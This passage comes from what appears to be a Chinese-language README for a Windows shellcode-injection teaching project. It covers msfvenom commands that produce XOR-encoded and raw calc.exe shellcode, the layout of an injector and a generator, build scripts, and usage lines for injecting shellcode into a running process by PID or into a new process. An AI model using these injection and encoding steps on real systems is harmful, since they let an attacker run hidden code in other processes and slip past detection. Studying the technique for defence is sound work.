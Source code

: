 **多重编码**:
```bash
msfvenom -p windows/x64/exec CMD=calc.exe \
    -e x64/xor \
    -i 3 \
    -f c
```

## 项目结构

```
13-shellcode-injection/
├── README.md                     # 本文档
├── build.bat                     # Windows 构建脚本
├── build.sh                      # Linux/macOS 构建脚本
├── src/
│   ├── shellcode_injection.c     # 主注入器（360 行）
│   └── generate_shellcode.c      # Shellcode 生成器（180 行）
└── build/
    ├── shellcode_injection.exe   # 注入器（21KB）
    ├── generate_shellcode.exe    # 生成器（19KB）
    └── calc_shellcode.bin        # 测试 shellcode（272 bytes）
```

## 构建和使用

### 前置要求

- **编译器**: GCC (MinGW-w64)
- **架构**: x64
- **系统**: Windows 7+
- **权限**: 注入 System 进程需要管理员权限
- **Shellcode 生成**: msfvenom (可选)

### 构建步骤

```bash
# Windows
build.bat

# Linux/macOS (需要 MinGW 交叉编译)
bash build.sh
```

### 使用方法

```bash
cd build

# ===== 生成 Shellcode =====
# 使用内置生成器（calc.exe）
generate_shellcode.exe calc

# 或使用 msfvenom（推荐）
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc_shellcode.bin

# ===== 注入到现有进程 =====
shellcode_injection.exe <PID> <shellcode.bin>

# 示例：注入到 PID 1234
shellcode_injection.exe 1234 calc_shellcode.bin

# ===== 注入到新进程 =====
shellcode_injection.exe <EXE路径> <shellcode.bin>

```